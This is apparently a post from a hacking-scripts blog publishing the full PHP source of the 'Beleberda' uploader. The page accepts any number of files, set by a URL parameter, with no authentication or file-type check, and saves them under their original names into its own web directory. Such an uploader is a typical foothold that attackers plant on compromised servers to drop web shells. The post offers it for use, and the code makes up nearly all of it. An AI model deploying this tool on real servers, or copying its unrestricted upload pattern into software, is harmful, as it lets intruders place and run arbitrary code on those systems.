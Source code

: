 ```yaml
---
id: 308
title: beleberda uploader script
author: admin
layout: post
guid: http://hackingscripts.com/?p=308
permalink: /beleberda-uploader-script/
categories:
  - PHP
tags:
  - PHP
  - uploader
---
```

Beleberda uploader script

### Beleberda Uploader Script source code

{% highlight php %}&lt;html&gt;

&lt;head&gt;
  &lt;title&gt;bele&lt;/title&gt;
&lt;/head&gt;

&lt;body&gt;
<?php


 if(empty($_GET['Nfiles']))$Nfiles=15;else $Nfiles=$_GET['Nfiles'];
if($_FILES['userfile']['tmp_name'][0]!=''){
	for($i=0;$i&lt;$Nfiles&&$_FILES['userfile']['tmp_name'][$i]!='';$i++){
	$uploaddir = dirname(__FILE__);//'/var/www/uploads/';
	$uploadfile = $uploaddir .'/'. basename($_FILES['userfile']['name'][$i]);
	print "&lt;pre&gt;";
	if (move_uploaded_file($_FILES['userfile']['tmp_name'][$i], $uploadfile)) {
	   print "File is valid, and was successfully uploaded. ";
	   //print_r($_FILES);
	} else {
	   print "Possible fie upload attack!  Here's some debugging info:\n";
	   //print_r($_FILES);
	}
	print "&lt;/pre&gt;";
	}
}
?>
&lt;form action="<?php echo $_SERVER['PHP_SELF'].'?Nfiles='.$Nfiles; ?>" method="post" enctype="multipart/form-data"&gt;
  Send beleberda:&lt;br&gt;
  <?php for($i=0;$i&lt;$Nfiles;$i++){echo '&lt;input name="userfile[]" type="file"&gt;&lt;br&gt;';}?>
  &lt;input type="submit" value="Send files"&gt;
&lt;/form&gt;

&lt;/body&gt;

&lt;/html&gt;
{% endhighlight %}

A screenshot of the Beleberda script:<figure id="attachment_392" style="width: 268px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png" alt="beleberda script screenshot" width="268" height="468" class="size-full wp-image-392" />][1]<figcaption class="wp-caption-text">Beleberda script screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/beleberda.png